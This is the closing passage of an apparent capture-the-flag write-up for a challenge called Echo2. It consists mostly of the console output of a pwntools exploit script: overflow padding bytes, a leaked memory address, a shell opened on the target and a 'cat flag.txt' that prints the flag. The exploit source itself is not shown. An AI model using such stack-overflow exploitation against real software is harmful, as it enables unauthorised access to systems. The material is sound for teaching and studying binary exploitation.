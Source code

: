 ```
echo2_writeup.py:32: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(len(payload2)+1))
b'\nWelcome to Echo2\nEcho2: '
b'\naaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x94\xb0N\xea\xdeU\n'
0x7f702d2770f0
echo2_writeup.py:47: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(len(payload3)+1))
[*] Switching to interactive mode

Welcome to Echo2
Echo2:
bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb\x98\xe0N\xea\xdeU
$ cat flag.txt
flag{I_pwn3d_17}
```
Thanks for reading!
